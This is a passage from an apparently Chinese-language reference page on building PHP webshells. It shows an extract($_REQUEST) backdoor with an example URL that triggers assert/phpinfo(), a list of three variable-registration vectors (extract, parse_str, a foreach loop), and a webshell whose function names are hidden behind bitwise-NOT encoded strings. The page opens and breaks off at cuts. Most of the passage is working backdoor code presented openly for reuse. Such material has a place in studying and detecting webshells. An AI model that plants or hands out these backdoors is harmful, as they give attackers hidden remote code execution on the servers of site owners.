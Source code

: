 ```php
        if (fwrite ($fp, $content))
        {
            fclose ($fp);
            die ("error");
        }
        else
        {
            fclose ($fp);
            die ("good");
        }
        exit;
    }
?>
```
{% endcode %}

### 0x29: [利用本地变量注册技术](https://blog.sucuri.net/2014/02/php-backdoors-hidden-with-clever-use-of-extract-function.html)&#x20;

利用[extract](http://www.php.net/manual/en/function.extract.php)函数将输入数据注册为本地变量，然后利用PHP的动态执行特性进行动态函数执行

```php
<?php
    @extract ($_REQUEST);
    @die($ctime($atime));
?>
# http://localhost/test/index.php?ctime=assert&atime=phpinfo()
```

### 0x30: 关于本地变量注册技术的利用姿势

PHP中有三种姿势可能导致本地变量注册，进而利用PHP的动态函数执行技巧进行WEBSHELL的构造

1. extract
2. parse\_str
3. foreach(..) { \$$key = $value; }

这三种在本文中都给出了相应例子&#x20;

### 0x31: 利用PHP的逻辑运算符进行WEBSHELL的编码&#x20;

1

http://worm.cc/PHP中使用按位取反函数创建后门.html

{% tabs %}
{% tab title="WEBSHELL代码" %}
```php
<?php
    $x = ~"žŒŒš‹";
    $y = ~"—–‘™×Ö";
    $x($y);
?>
```
{% endtab %}
